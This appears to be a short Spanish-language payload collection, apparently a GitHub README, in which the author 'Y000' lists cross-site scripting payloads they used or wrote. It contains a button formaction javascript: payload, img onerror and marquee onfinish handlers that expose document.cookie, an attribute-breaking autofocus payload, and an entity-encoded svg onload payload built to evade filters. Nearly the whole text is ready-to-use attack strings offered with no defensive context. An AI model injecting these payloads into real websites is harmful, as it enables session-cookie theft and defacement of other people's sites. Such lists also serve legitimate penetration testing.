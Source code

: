 Recopilación de todos los Payloads usados/creados por mi.


-1'<marquee>hacked by Y000</marquee>









Xss dentro de un botón en form:

`<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_`

`<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>`



Img + Onerror

`<Img src="/" =_=" title=" onerror='prompt(document.cookie)'">`



```
<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>
```


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
